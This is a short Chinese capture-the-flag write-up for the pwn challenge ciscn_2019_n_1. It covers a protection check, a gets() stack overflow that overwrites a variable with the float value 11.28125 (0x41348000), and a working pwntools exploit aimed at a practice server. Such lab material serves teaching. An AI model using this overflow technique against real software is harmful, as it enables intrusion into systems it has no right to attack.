

# 知识点

栈溢出覆盖变量、小数转十六进制


# 题目分析

1. 查看保护情况，开启NX保护。

   ```bash
   [*] '/root/Desktop/ciscn_2019_n_1'
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. 进入main函数，发现存在gets函数栈溢出漏洞。可以覆盖变量v2为指定数值。

   

3. 将小数转换为十六进制：0x41348000

   ```python
   import struct
   
   print hex(struct.unpack('<I', struct.pack('<f', 11.28125))[0])
   ```

   

# Exp

```python
from pwn import *

io = process('./ciscn_2019_n_1')
io = remote('node4.buuoj.cn', '28348')

payload = 'A' * 0x2C
payload += p64(0x41348000)

io.sendline(payload)

io.interactive()
```

